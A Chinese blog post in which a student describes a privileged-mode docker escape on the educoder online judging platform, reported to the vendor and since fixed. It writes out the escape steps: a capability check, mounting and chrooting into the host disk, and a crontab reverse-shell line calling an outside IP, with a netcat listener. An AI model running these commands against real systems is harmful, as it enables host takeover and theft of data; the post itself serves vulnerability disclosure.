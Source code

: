 ```yaml
---
title: 一例 docker 配置不当产生的逃逸漏洞
date: 2023-02-18 11:19:59
categories: 逆向
tags: [逆向, docker]
---
```


我们学校某些实验课使用的是头歌实践教学平台（educoder，一个在线评测网站），老师说找到漏洞可以提，我就简单挖了挖。其实去年 5 月份就找到这个漏洞了，但是碍于修复需要时间，没有写成文章。前段时间登陆上去看了下，发现已经修复了，就浅浅记录一下吧。

<!-- more -->

说句题外话，我是发邮件告诉他们这个漏洞的，结果就收到个“已转发给技术”，修复完了也渺无音信。要不是这体量不太够我就给他发 CNVD 上面去了😡。

回到正题，说起来这个漏洞也挺简单，分发给用户的评测机其实是跑在 docker 里面的，而这个 docker 是以特权模式启动的。

验证 docker 是否是特权模式启动，只需要使用命令：

```bash
> cat /proc/self/status | grep CapEff
0000003fffffffff
```

结果是`0000003fffffffff`就是了。

知道是特权模式启动的 docker 之后，就可以开始逃逸了。

先挂载宿主机硬盘：
```bash
> mkdir test;
> mount /dev/vda1 test/;
> chroot /test/;
```

现在主机的磁盘就挂载在`/test`下面了，可以查看、修改主机的所有文件，我这里就修改 crontab 简单获取个反弹 shell。

```bash
> vi ./etc/crontab
"*/1 *  *  *  * root bash -i >& /dev/tcp/172.20.253.241/2333 0>&1"
```

在攻击机上监听一下：
```bash
> netcat -lvvp 2333
```

过一会儿就能收到反弹 shell 了，粗略看了看，也就是一个阿里云的主机，可以看到各个评测的答案和代码，还有一些敏感信息按下不表。

![](一例docker配置不当产生的逃逸漏洞/educode_1.png)